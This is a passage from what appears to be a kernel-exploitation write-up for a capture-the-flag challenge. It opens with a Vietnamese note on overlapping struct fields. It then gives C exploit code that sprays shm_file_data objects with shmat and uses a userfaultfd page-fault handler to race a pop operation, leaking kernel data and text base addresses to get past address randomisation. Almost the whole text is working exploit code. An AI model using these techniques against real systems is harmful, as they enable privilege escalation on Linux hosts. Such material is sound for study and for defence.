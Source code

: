 ```shm_file_data.ns``` trùng offset với ```Element.value``` từ đó ta leak được data base -> leak được text base.
{
  int shmid;
  void *addr;
  pid_t pid;
  if((pid=fork()) == 0){
    if((shmid = shmget(IPC_PRIVATE, 0x1000, IPC_CREAT | 0600))==-1)
      errExit("shmget fail");
    if((addr=shmat(shmid, NULL, SHM_RDONLY))==-1)
      errExit("shmat fail");
    if(shmctl(shmid, IPC_RMID, NULL)==-1)
      errExit("shmctl");
    log_info("Success call_shmat: %p", addr);
    log_info("Child is exiting...");
    exit(0);
  }
  wait(pid);
  log_info("Parent is returning...");
}
int64_t kernel_base;
int64_t data_base;
static void* fault_handler_thread(void *arg)
{
    log_info("Entered fault_handler_thread");
    static struct uffd_msg msg;   // data read from userfaultfd
    struct uffdio_copy uffdio_copy_var;
    long uffd = (long)arg;        // userfaultfd file descriptor
    struct pollfd pollfd;         //
    int nready;                   // number of polled events
    unsigned long hogebuf;
    pollfd.fd = uffd;
    pollfd.events = POLLIN;
    log_info("Polling...");
    while(poll(&pollfd, 1, -1) > 0){
      if(pollfd.revents & POLLERR || pollfd.revents & POLLHUP)
          log_err("poll");
      // read an event
      if(read(uffd, &msg, sizeof(msg)) == 0)
          log_err("read");
      if(msg.event != UFFD_EVENT_PAGEFAULT)
          log_err("unexpected pagefault");
      log_err("page fault: %p",(void *)msg.arg.pagefault.address);
      log_info("pop before push");
      pop(&hogebuf);
      data_base = hogebuf - 0x37bc0;
      kernel_base = data_base - 0xc00000;
      log_info("Data base: 0x%lx",data_base);
      log_info("Text base: 0x%lx",kernel_base);


      mprotect(msg.arg.pagefault.address & ~(PAGE-1),PAGE,PROT_NONE);
      log_info("Mprotect -> PROT_NONE");
      //Stop polling
      uffdio_copy_var.src = buf;
      uffdio_copy_var.dst = msg.arg.pagefault.address & ~(PAGE-1);
      uffdio_copy_var.len = PAGE;
      uffdio_copy_var.mode = 0;
      if(ioctl(uffd, UFFDIO_COPY, &uffdio_copy_var) == -1)
        errExit("ioctl-UFFDIO_COPY");
      break;
    }
    log_info("Exit fault_handler_thread");
}

```